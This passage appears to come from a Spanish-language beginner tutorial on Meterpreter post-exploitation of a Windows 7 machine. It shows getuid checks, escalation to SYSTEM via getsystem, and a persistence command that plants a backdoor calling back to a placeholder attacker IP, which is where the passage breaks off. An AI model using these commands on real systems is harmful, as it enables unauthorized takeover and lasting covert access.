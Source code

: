 ✅ Resultado:

```
Computer : WIN-ABCD123
OS       : Windows 7
Arch     : x86
```

---

#### ✅ PASO 2️⃣ Escalar privilegios

✅ Ver qué usuario tienes:

```bash
getuid
```

✅ Resultado:

```
Server username: WIN-ABCD123\User
```

✅ Intentar escalar:

```bash
run post/windows/escalate/getsystem
```

✅ Resultado:

```
Got SYSTEM via technique 1 (Named Pipe Impersonation)
```

✅ Verificar de nuevo:

```bash
getuid
```

```
NT AUTHORITY\SYSTEM
```

✔ ¡Ahora eres administrador!

---

✅ **Explicación fácil:**

> Usaste un **módulo post** para subir de usuario normal a **SYSTEM**, el más alto en Windows.

---

#### ✅ PASO 3️⃣ Mantener persistencia

✅ Crear backdoor para regresar más tarde:

```bash
run persistence -U -i 30 -p 4444 -r TU_IP
```
